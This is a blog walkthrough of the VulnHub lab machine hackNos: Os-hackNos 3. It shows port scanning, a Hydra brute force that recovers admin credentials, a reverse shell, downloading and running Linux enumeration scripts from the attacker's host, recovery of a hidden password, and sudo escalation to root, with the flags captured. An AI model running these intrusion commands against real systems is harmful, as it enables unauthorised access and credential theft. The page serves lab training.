<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/hackNos-os-hackNos-3</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/hackNos-os-hackNos-3</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/hackNos-os-hackNos-3/hackNos-os-hackNos-3.html">+ hackNos: Os-hackNos 3 - 2022.01.03 Monday</a>
</nav>

## Description

> Difficulty: Intermediate
>
> Flag: 2 Flag first user And the second root
>
> Learning: Web Application | Enumeration | Privilege Escalation
>
> Web-site: www.hacknos.com
>
> Contact-us : @rahul_gehlaut
>
> This works better with VirtualBox rather than VMware

[VulnHub: https://www.vulnhub.com/entry/hacknos-os-hacknos-3,410/](https://www.vulnhub.com/entry/hacknos-os-hacknos-3,410/)
[Series: https://www.vulnhub.com/series/hacknos,257/](https://www.vulnhub.com/series/hacknos,257/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.58
192.168.56.70

```

```shell
export RHOST="192.168.56.58"
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST
firing nmap 192.168.56.58 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 12:41 IST
Nmap scan report for 192.168.56.58
Host is up (0.00034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.58 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 12:41 IST
Nmap scan report for 192.168.56.58
Host is up (0.00040s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ce:16:a0:18:3f:74:e9:ad:cb:a9:39:90:11:b8:8a:2e (RSA)
|   256 9d:0e:a1:a3:1e:2c:4d:00:e8:87:d2:76:8c:be:71:9a (ECDSA)
|_  256 63:b3:75:98:de:c1:89:d9:92:4e:49:31:29:4b:c0:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: WebSec
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds

```

```shell
sudo nmap $RHOST -n -p- -Pn -T4 --min-rate=5000 --top-ports=100 -sU --open | tee nmap.udp.top-100.txt
[sudo] password for f0c1s:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 12:42 IST
Nmap scan report for 192.168.56.58
Host is up (0.00034s latency).
All 100 scanned ports on 192.168.56.58 are in ignored states.
Not shown: 95 open|filtered udp ports (no-response), 5 closed udp ports (port-unreach)
MAC Address: 08:00:27:88:DD:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds

```



## Attacking web

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.58
+ Target Hostname:    192.168.56.58
+ Target Port:        80
+ Start Time:         2022-01-03 12:43:00 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: c3, size: 599925bee00f9, mtime: gzip
+ OSVDB-3268: /scripts/: Directory indexing found.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ 26522 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2022-01-03 12:44:32 (GMT5.5) (92 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```



```html
<!DOCTYPE>
<html>
	<body>  
		<title>WebSec</title>
		<h1 align="center"> find the Bug</h1>
		<p align="center">You need extra <b>WebSec</b> </p>

	</body>
</html>

```

```shell
feroxbuster -q -u http://$RHOST/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      316c http://192.168.56.58/scripts
301        9l       28w      314c http://192.168.56.58/devil
301        9l       28w      321c http://192.168.56.58/devil/images
301        9l       28w      320c http://192.168.56.58/devil/pages
301        9l       28w      319c http://192.168.56.58/devil/apps
301        9l       28w      321c http://192.168.56.58/devil/assets
301        9l       28w      318c http://192.168.56.58/devil/css
301        9l       28w      317c http://192.168.56.58/devil/js
301        9l       28w      317c http://192.168.56.58/devil/kb
301        9l       28w      318c http://192.168.56.58/devil/api
403        9l       28w      278c http://192.168.56.58/devil/include
301        9l       28w      315c http://192.168.56.58/websec
200      113l      249w     4346c http://192.168.56.58/websec/blog
200      111l      266w     4644c http://192.168.56.58/websec/1
200      111l      266w     4644c http://192.168.56.58/websec/01
200      113l      249w     4346c http://192.168.56.58/websec/index
200       41l       99w     1591c http://192.168.56.58/websec/login
200      113l      249w     4346c http://192.168.56.58/websec/search
200       93l      221w     3754c http://192.168.56.58/websec/about
200      115l      251w     4366c http://192.168.56.58/websec/category
301        9l       28w      333c http://192.168.56.58/websec/themes
200      113l      249w     4346c http://192.168.56.58/websec/0
200       21l       42w      765c http://192.168.56.58/websec/feed
200       41l       99w     1591c http://192.168.56.58/websec/admin
301        9l       28w      333c http://192.168.56.58/websec/assets
200      115l      251w     4361c http://192.168.56.58/websec/tag
200      113l      239w     4208c http://192.168.56.58/websec/author
200      113l      249w     4346c http://192.168.56.58/websec/Search
301        9l       28w      331c http://192.168.56.58/websec/sites
200       93l      221w     3754c http://192.168.56.58/websec/About
301        9l       28w      327c http://192.168.56.58/websec/log
200      113l      249w     4346c http://192.168.56.58/websec/Index
200       85l      190w     3554c http://192.168.56.58/websec/tags
200      111l      266w     4644c http://192.168.56.58/websec/1x1
301        9l       28w      327c http://192.168.56.58/websec/lib
301        9l       28w      327c http://192.168.56.58/websec/src
200        0l        0w        0c http://192.168.56.58/websec/api
301        9l       28w      318c http://192.168.56.58/devil/scp
200      111l      266w     4644c http://192.168.56.58/websec/001
500        0l        0w        0c http://192.168.56.58/websec/cm
200      111l      266w     4644c http://192.168.56.58/websec/1pix
200        0l        0w        0c http://192.168.56.58/websec/fm
301        9l       28w      327c http://192.168.56.58/websec/tmp
200      111l      266w     4644c http://192.168.56.58/websec/1a
200      111l      266w     4644c http://192.168.56.58/websec/0001
200      111l      266w     4644c http://192.168.56.58/websec/1x1transparent
200      113l      249w     4346c http://192.168.56.58/websec/INDEX
200      111l      266w     4644c http://192.168.56.58/websec/1px
200      111l      266w     4644c http://192.168.56.58/websec/1d
200      111l      266w     4644c http://192.168.56.58/websec/1_1
200      113l      239w     4208c http://192.168.56.58/websec/Author
200      111l      266w     4644c http://192.168.56.58/websec/1pixel
200      111l      266w     4644c http://192.168.56.58/websec/0001-exploits
200      111l      266w     4644c http://192.168.56.58/websec/01_hello
200      111l      266w     4644c http://192.168.56.58/websec/1-1
200      111l      266w     4644c http://192.168.56.58/websec/1st
200      115l      251w     4366c http://192.168.56.58/websec/Category
200      111l      266w     4644c http://192.168.56.58/websec/00000001
200      111l      266w     4644c http://192.168.56.58/websec/1X1
200      111l      266w     4644c http://192.168.56.58/websec/1x1_spacer
200      111l      266w     4644c http://192.168.56.58/websec/1b
200      111l      266w     4644c http://192.168.56.58/websec/1s
200      111l      266w     4644c http://192.168.56.58/websec/1f
200      111l      266w     4644c http://192.168.56.58/websec/1h
200      111l      266w     4644c http://192.168.56.58/websec/1x1trans
200      111l      266w     4644c http://192.168.56.58/websec/00001
200      111l      266w     4644c http://192.168.56.58/websec/1click
200      111l      266w     4644c http://192.168.56.58/websec/1_2006
200      111l      266w     4644c http://192.168.56.58/websec/1_2007
200      111l      266w     4644c http://192.168.56.58/websec/1c
200      111l      266w     4644c http://192.168.56.58/websec/000001
200      111l      266w     4644c http://192.168.56.58/websec/1by1
200       21l       42w      765c http://192.168.56.58/websec/Feed
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_58_-1641194404.state ...
Scanning: http://192.168.56.58/
Scanning: http://192.168.56.58/scripts
Scanning: http://192.168.56.58/devil
Scanning: http://192.168.56.58/websec

```









I have seen this support system earlier, basically a ticket needs to be created to gain access to system.

Homepage hinted towards websec, let's create a password file out of it.

```shell
cewl http://$RHOST/websec --with-numbers -d 4 -e >> cewl.txt

```

```shell
cat cewl.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
hackNos
Bootstrap
and
com
Start
www
JavaScript
Navigation
About
Services
Portfolio
Contact
Security
Find
Out
More
Securityx
has
everything
you
need
get
your
new
website
running
time
All
the
templates
themes
are
open
source
free
download
easy
use
strings
attached
Get
Started
Your
Service
00000000000
contact
hacknos
core
Plugin
Custom
scripts
for
this
template

Email addresses found
---------------------
contact@hacknos.com
your-email@your-domain.com

```

## hydra



I was trying admin:admin for getting the error string, but now this reduces the effort by a lot.



```shell
hydra -L users.txt -P cewl.txt $RHOST -s 80 http-post-form "/websec/admin:username=^USER^&password=^PASS^:F=Wrong email or password"
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-03 12:57:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 120 login tries (l:2/p:60), ~8 tries per task
[DATA] attacking http-post-form://192.168.56.58:80/websec/admin:username=^USER^&password=^PASS^:F=Wrong email or password
[80][http-post-form] host: 192.168.56.58   login: contact@hacknos.com   password: Securityx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-03 12:57:16

```



Credentials: contact@hacknos.com:Securityx

## login as contact@hacknos.com













## Reverse shell



### /home

```shell
$ ls -lAhR /home
/home:
total 4.0K
drwxr-xr-x 6 blackdevil docker 4.0K Dec 13  2019 blackdevil

/home/blackdevil:
total 32K
-rw-r--r-- 1 blackdevil docker  220 May  5  2019 .bash_logout
-rw-r--r-- 1 blackdevil docker 3.7K May  5  2019 .bashrc
drwx------ 3 blackdevil docker 4.0K Dec 13  2019 .cache
drwxr-xr-x 3 blackdevil docker 4.0K Dec 13  2019 .config
drwx------ 3 blackdevil docker 4.0K Dec 10  2019 .gnupg
drwxr-xr-x 3 blackdevil docker 4.0K Dec 13  2019 .local
-rw-r--r-- 1 blackdevil docker  807 May  5  2019 .profile
-rw-r--r-- 1 root       root     33 Dec 13  2019 user.txt
ls: cannot open directory '/home/blackdevil/.cache': Permission denied

/home/blackdevil/.config:
total 4.0K
drwxr-xr-x 2 blackdevil docker 4.0K Dec 13  2019 composer

/home/blackdevil/.config/composer:
total 4.0K
-rw-r--r-- 1 blackdevil docker 13 Dec 13  2019 .htaccess
ls: cannot open directory '/home/blackdevil/.gnupg': Permission denied

/home/blackdevil/.local:
total 4.0K
drwxr-xr-x 3 blackdevil docker 4.0K Dec 13  2019 share

/home/blackdevil/.local/share:
total 4.0K
drwxr-xr-x 2 blackdevil docker 4.0K Dec 13  2019 composer

/home/blackdevil/.local/share/composer:
total 4.0K
-rw-r--r-- 1 blackdevil docker 13 Dec 13  2019 .htaccess

```

### flag user.txt

```shell
$ cat /home/blackdevil/user.txt
bae11ce4f67af91fa58576c1da2aad4b
```



### SUID binaries

```shell
$ find / -perm -4000 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/7917/bin/mount
/snap/core/7917/bin/ping
/snap/core/7917/bin/ping6
/snap/core/7917/bin/su
/snap/core/7917/bin/umount
/snap/core/7917/usr/bin/chfn
/snap/core/7917/usr/bin/chsh
/snap/core/7917/usr/bin/gpasswd
/snap/core/7917/usr/bin/newgrp
/snap/core/7917/usr/bin/passwd
/snap/core/7917/usr/bin/sudo
/snap/core/7917/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7917/usr/lib/openssh/ssh-keysign
/snap/core/7917/usr/lib/snapd/snap-confine
/snap/core/7917/usr/sbin/pppd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/cpulimit
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/at
/usr/bin/pkexec
/usr/bin/chsh
```

There are bunch of binaries here which seem new to me, need enumeration script here...

### Can I run lse.sh

```shell
$ cd /tmp
$ touch what
$ chmod +x what
$ ls -la
total 8
drwxrwxrwt  2 root     root     4096 Jan  3 07:39 .
drwxr-xr-x 20 root     root     4096 Dec 10  2019 ..
-rwxrwxrwx  1 www-data www-data    0 Jan  3 07:39 what
$ which wget
/usr/bin/wget
```

### A weird thing happened...

I got a weird error while trying expansion in bash. I guess because it is not a proper terminal, pty etc...

```shell
$ wget -q 192.168.56.70/{lse,LinEnum,linpeas}.sh
```

I received this request...

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.58 - - [03/Jan/2022 13:11:18] code 404, message File not found
192.168.56.58 - - [03/Jan/2022 13:11:18] "GET /%7Blse,LinEnum,linpeas%7D.sh HTTP/1.1" 404 -
```

So I got a pty via python... and then expansion worked. First Time.

```shell
$ wget --version
GNU Wget 1.20.3 built on linux-gnu.

-cares +digest -gpgme +https +ipv6 +iri +large-file -metalink +nls
+ntlm +opie +psl +ssl/openssl

Wgetrc:
    /etc/wgetrc (system)
Locale:
    /usr/share/locale
Compile:
    gcc -DHAVE_CONFIG_H -DSYSTEM_WGETRC="/etc/wgetrc"
    -DLOCALEDIR="/usr/share/locale" -I. -I../../src -I../lib
    -I../../lib -Wdate-time -D_FORTIFY_SOURCE=2 -DHAVE_LIBSSL -DNDEBUG
    -g -O2 -fdebug-prefix-map=/build/wget-OYIfr9/wget-1.20.3=.
    -fstack-protector-strong -Wformat -Werror=format-security
    -DNO_SSLv2 -D_FILE_OFFSET_BITS=64 -g -Wall
Link:
    gcc -DHAVE_LIBSSL -DNDEBUG -g -O2
    -fdebug-prefix-map=/build/wget-OYIfr9/wget-1.20.3=.
    -fstack-protector-strong -Wformat -Werror=format-security
    -DNO_SSLv2 -D_FILE_OFFSET_BITS=64 -g -Wall -Wl,-Bsymbolic-functions
    -Wl,-z,relro -Wl,-z,now -lpcre2-8 -luuid -lidn2 -lssl -lcrypto -lz
    -lpsl ftp-opie.o openssl.o http-ntlm.o ../lib/libgnu.a

Copyright (C) 2015 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
<http://www.gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Originally written by Hrvoje Niksic <hniksic@xemacs.org>.
Please send bug reports and questions to <bug-wget@gnu.org>.
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@hacknos:/tmp$ wget -q 192.168.56.70/{lse,LinEnum,linpeas}.sh
wget -q 192.168.56.70/{lse,LinEnum,linpeas}.sh
www-data@hacknos:/tmp$ chmod +x *.sh
chmod +x *.sh
www-data@hacknos:/tmp$ ls -la
ls -la
total 564
drwxrwxrwt  2 root     root       4096 Jan  3 07:41 .
drwxr-xr-x 20 root     root       4096 Dec 10  2019 ..
-rwxrwxrwx  1 www-data www-data  46631 Sep 24 02:52 LinEnum.sh
-rwxrwxrwx  1 www-data www-data 473222 Sep 24 03:38 linpeas.sh
-rwxrwxrwx  1 www-data www-data  43570 Sep 24 02:51 lse.sh
-rwxrwxrwx  1 www-data www-data      0 Jan  3 07:39 what
```

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.58 - - [03/Jan/2022 13:11:18] code 404, message File not found
192.168.56.58 - - [03/Jan/2022 13:11:18] "GET /%7Blse,LinEnum,linpeas%7D.sh HTTP/1.1" 404 -
192.168.56.58 - - [03/Jan/2022 13:12:00] "GET /lse.sh HTTP/1.1" 200 -
192.168.56.58 - - [03/Jan/2022 13:12:00] "GET /LinEnum.sh HTTP/1.1" 200 -
192.168.56.58 - - [03/Jan/2022 13:12:00] "GET /linpeas.sh HTTP/1.1" 200 -
```

### lse.sh

[checkout 18.out-lse-sh.txt](18.out-lse-sh.txt)

It finds one binary that is out of order:

```shell
www-data@hacknos:/tmp$ /usr/bin/cpulimit
/usr/bin/cpulimit
Error: You must specify a target process
CPUlimit version 2.4
Usage: /usr/bin/cpulimit TARGET [OPTIONS...] [-- PROGRAM]
   TARGET must be exactly one of these:
      -p, --pid=N        pid of the process
      -e, --exe=FILE     name of the executable program file
                         The -e option only works when
                         cpulimit is run with admin rights.
      -P, --path=PATH    absolute path name of the
                         executable program file
   OPTIONS
      -b  --background   run in background
      -f  --foreground   launch target process in foreground and wait for it to exit
      -c  --cpu=N        override the detection of CPUs on the machine.
      -l, --limit=N      percentage of cpu allowed from 1 up.
                         Usually 1 - 100, but can be higher
                         on multi-core CPUs (mandatory)
      -m, --monitor-forks  Watch children/forks of the target process
      -q, --quiet        run in quiet mode (only print errors).
      -k, --kill         kill processes going over their limit
                         instead of just throttling them.
      -r, --restore      Restore processes after they have
                         been killed. Works with the -k flag.
      -s, --signal=SIG   Send this signal to the watched process when cpulimit exits.
                         Signal should be specificed as a number or
                         SIGTERM, SIGCONT, SIGSTOP, etc. SIGCONT is the default.
      -v, --verbose      show control statistics
      -z, --lazy         exit if there is no suitable target process,
                         or if it dies
          --             This is the final CPUlimit option. All following
                         options are for another program we will launch.
      -h, --help         display this help and exit
```

## find

### recent files

```shell
www-data@hacknos:/tmp$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -and -mtime -1 -and -not -user root -exec ls -l "{}" \; 2>/dev/null
and -mtime -1 -and -not -user root -exec ls -l "{}" \; 2>/dev/null
-rwxr-xr-x 1 www-data www-data 4217 Jan  3 07:35 /var/www/html/websec/index.php
-rw-r--r-- 1 www-data www-data 6163 Jan  3 07:27 /var/www/html/websec/log/login.failed.log
-rw-r--r-- 1 www-data www-data 4719 Jan  3 07:35 /var/www/html/websec/log/sessions.log
-rw-r--r-- 1 www-data www-data 560 Jan  3 07:17 /var/www/html/websec/log/error.log
-rw-r--r-- 1 www-data www-data 71 Jan  3 07:29 /var/www/html/websec/log/mt.php
-rw-rw---- 1 mysql mysql 12582912 Jan  3 07:09 /var/lib/mysql/ibtmp1
-rw-rw---- 1 mysql mysql 24576 Jan  3 07:09 /var/lib/mysql/tc.log
-rw-rw---- 1 mysql mysql 79691776 Jan  3 07:29 /var/lib/mysql/ibdata1
-rw-rw---- 1 mysql mysql 50331648 Jan  3 07:29 /var/lib/mysql/ib_logfile0
-rw-r----- 1 syslog adm 107633 Jan  3 07:09 /var/log/syslog.1
-rw-r----- 1 syslog adm 1081551 Jan  3 07:09 /var/log/kern.log.1
-rw-r----- 1 syslog adm 2092 Jan  3 07:42 /var/log/auth.log
-rw-r----- 1 syslog adm 0 Jan  3 07:09 /var/log/kern.log
-rw-r----- 1 syslog adm 89591 Jan  3 07:09 /var/log/auth.log.1
-rw-r--r-- 1 syslog adm 1258637 Jan  3 07:09 /var/log/cloud-init.log
-rw-r----- 1 syslog adm 10259 Jan  3 07:44 /var/log/syslog
-rw-rw---- 1 mysql mysql 4 Jan  3 07:09 /run/mysqld/mysqld.pid
-rw-r--r-- 1 systemd-resolve systemd-resolve 708 Jan  3 07:44 /run/systemd/resolve/stub-resolv.conf
-rw-r--r-- 1 systemd-resolve systemd-resolve 589 Jan  3 07:44 /run/systemd/resolve/resolv.conf
-rw-r--r-- 1 systemd-network systemd-network 58 Jan  3 07:44 /run/systemd/netif/state
-rw-r--r-- 1 systemd-network systemd-network 185 Jan  3 07:44 /run/systemd/netif/leases/2
-rw-r--r-- 1 systemd-network systemd-network 359 Jan  3 07:44 /run/systemd/netif/links/2
-rw-r--r-- 1 systemd-network systemd-network 79 Jan  3 07:09 /run/systemd/netif/links/1
-rwxrwxrwx 1 www-data www-data 0 Jan  3 07:39 /tmp/what
```

### backups

```shell
www-data@hacknos:/tmp$ find / -type f -name "*bak" -exec ls -lh "{}" \; 2>/dev/null
ulld / -type f -name "*bak" -exec ls -lh "{}" \; 2>/dev/nu
-rw------- 1 root root 1.8K Dec 13  2019 /var/backups/passwd.bak
-rw------- 1 root root 844 Dec 13  2019 /var/backups/group.bak
-rw------- 1 root shadow 712 Dec 13  2019 /var/backups/gshadow.bak
-rw------- 1 root shadow 1.1K Dec 13  2019 /var/backups/shadow.bak

www-data@hacknos:/tmp$ find / -type f -name "*backup*" 2>/dev/null
find / -type f -name "*backup*" 2>/dev/null
/var/www/html/websec/src/core/views/admin/db_backup.php
/var/www/html/websec/src/core/classes/db_backup.php
/usr/src/linux-headers-5.3.0-24-generic/include/config/net/team/mode/activebackup.h
/usr/src/linux-headers-5.3.0-24-generic/include/config/wm831x/backup.h
/usr/src/linux-headers-5.3.0-24/tools/testing/selftests/net/tcp_fastopen_backup_key.sh
/usr/share/man/man8/vgcfgbackup.8.gz
/usr/share/man/man1/wsrep_sst_mariabackup.1.gz
/usr/lib/modules/5.3.0-24-generic/kernel/drivers/net/team/team_mode_activebackup.ko
/usr/lib/modules/5.3.0-24-generic/kernel/drivers/power/supply/wm831x_backup.ko
/usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
/usr/bin/wsrep_sst_mariabackup


www-data@hacknos:/tmp$ find / -type d -name "*backup*" 2>/dev/null
find / -type d -name "*backup*" 2>/dev/null
/snap/core/8268/var/backups
/snap/core/7917/var/backups
/var/backups

```

### writable files

```shell
www-data@hacknos:/tmp$ find / -writable -not -path "/proc/*" -not -path "/run/*" -not -path "/snap/*" -not -path "/dev/*" -not -path "/usr/lib/systemd/*" -not -path "/var/www/html/*" -not -path "/sys/*" 2>/dev/null
path "/var/www/html/*" -not -path "/sys/*" 2>/dev/null/usr/lib/systemd/*" -not -p
/var/lock
/var/www/html
/var/tmp
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/tmp
/tmp/linpeas.sh
/tmp/what
/tmp/LinEnum.sh
/tmp/lse.sh
/tmp/tmux-33
```

### databases

```shell
www-data@hacknos:/tmp$ find / -type f -name "*database*" 2>/dev/null
find / -type f -name "*database*" 2>/dev/null
/snap/core/8268/var/lib/systemd/catalog/database
/snap/core/7917/var/lib/systemd/catalog/database
/var/local/database
/var/www/html/devil/hackNosff/images/database.png
/var/www/html/websec/themes/startbootstrap-creative/vendor/fontawesome-free/svgs/solid/database.svg
/var/lib/systemd/catalog/database
/var/lib/dpkg/info/geoip-database.list
/var/lib/dpkg/info/geoip-database.md5sums
/usr/share/man/man1/update-mime-database.1.gz
/usr/share/phpmyadmin/server_databases.php
/usr/share/phpmyadmin/js/server_databases.js
/usr/share/phpmyadmin/js/designer/database.js
/usr/share/phpmyadmin/themes/pmahomme/img/database.png
/usr/share/phpmyadmin/test/libraries/database_interface_test.php
/usr/share/phpmyadmin/templates/privileges/add_privileges_database.twig
/usr/share/phpmyadmin/templates/database/designer/database_tables.twig
/usr/share/phpmyadmin/templates/server/databases/databases_header.twig
/usr/share/phpmyadmin/templates/server/databases/databases_footer.twig
/usr/share/lintian/overrides/geoip-database
/usr/share/mime/application/vnd.oasis.opendocument.database.xml
/usr/lib/python3/dist-packages/fail2ban/tests/databasetestcase.py
/usr/lib/python3/dist-packages/fail2ban/tests/__pycache__/databasetestcase.cpython-37.pyc
/usr/lib/python3/dist-packages/fail2ban/tests/files/database_v1.db
/usr/lib/python3/dist-packages/fail2ban/server/database.py
/usr/lib/python3/dist-packages/fail2ban/server/__pycache__/database.cpython-37.pyc
/usr/bin/update-mime-database

```

```shell
$ find / -type f -name "database" 2>/dev/null
/snap/core/8268/var/lib/systemd/catalog/database
/snap/core/7917/var/lib/systemd/catalog/database
/var/local/database
/var/lib/systemd/catalog/database
```

`/var/local/database` looks interesting...

## database at /var/local

```shell
$ file /var/local/database
/var/local/database: ASCII text

$ cat /var/local/database
Expenses
Software Licenses,$2.78
Maintenance,$68.87
Mortgage Interest,$70.35
Advertising,$9.78
Phone,$406.80
Insurance,$9.04
Opss;fackespreadsheet
```

I have seen fake spreadsheet a few months ago...

This is basically steganography.





Decoded: `Security@x@`

## Becoming blackdevil

```shell
$ su blackdevil
Password: Security@x@
id
uid=1000(blackdevil) gid=118(docker) groups=118(docker),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd)
whoami
blackdevil
date
Mon 03 Jan 2022 08:00:29 AM UTC
hostname
hacknos
exit
$ exit
```

## SSH as blackdevil

```shell
ssh blackdevil@$RHOST
The authenticity of host '192.168.56.58 (192.168.56.58)' can't be established.
ED25519 key fingerprint is SHA256:gXD3adtoFZyQt3ULoqZH1R2IiPwd5gJPwLGtIC0VWBM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.58' (ED25519) to the list of known hosts.
blackdevil@192.168.56.58's password:
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 03 Jan 2022 08:00:18 AM UTC

  System load:  0.0               Processes:             127
  Usage of /:   55.3% of 9.78GB   Users logged in:       0
  Memory usage: 28%               IP address for enp0s3: 192.168.56.58
  Swap usage:   0%

 * Overheard at KubeCon: "microk8s.status just blew my mind".

     https://microk8s.io/docs/commands#microk8s.status

3 updates can be installed immediately.
3 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Fri Dec 13 06:51:23 2019 from 192.168.1.19
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

blackdevil@hacknos:~$ whoami
blackdevil
blackdevil@hacknos:~$ id
uid=1000(blackdevil) gid=118(docker) groups=118(docker),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd)
blackdevil@hacknos:~$ date
Mon 03 Jan 2022 08:01:02 AM UTC
blackdevil@hacknos:~$ hostname
hacknos
```

## Becoming root

```shell
blackdevil@hacknos:~$ sudo -l
[sudo] password for blackdevil:
Matching Defaults entries for blackdevil on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User blackdevil may run the following commands on hacknos:
    (ALL : ALL) ALL
blackdevil@hacknos:~$ sudo bash
root@hacknos:/home/blackdevil# id
uid=0(root) gid=0(root) groups=0(root)
root@hacknos:/home/blackdevil# whoami
root
root@hacknos:/home/blackdevil# cd /root
root@hacknos:~# ls -la
total 56
drwx------  8 root root 4096 Dec 14  2019 .
drwxr-xr-x 20 root root 4096 Dec 10  2019 ..
-rw-------  1 root root  162 Dec 14  2019 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwx------  2 root root 4096 Dec 13  2019 .cache
drwxr-xr-x  3 root root 4096 Dec 13  2019 .composer
drwx------  3 root root 4096 Dec 13  2019 .gnupg
drwxr-xr-x  3 root root 4096 Dec 13  2019 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
-rw-r--r--  1 root root  547 Dec 13  2019 root.txt
drwxr-xr-x  3 root root 4096 Dec 10  2019 snap
drwx------  2 root root 4096 Dec 10  2019 .ssh
-rw-------  1 root root 6581 Dec 13  2019 .viminfo
root@hacknos:~# cat root.txt
########    #####     #####   ########         ########
##     ##  ##   ##   ##   ##     ##            ##     ##
##     ## ##     ## ##     ##    ##            ##     ##
########  ##     ## ##     ##    ##            ########
##   ##   ##     ## ##     ##    ##            ##   ##
##    ##   ##   ##   ##   ##     ##            ##    ##
##     ##   #####     #####      ##    ####### ##     ##


MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
root@hacknos:~# cat /etc/shadow
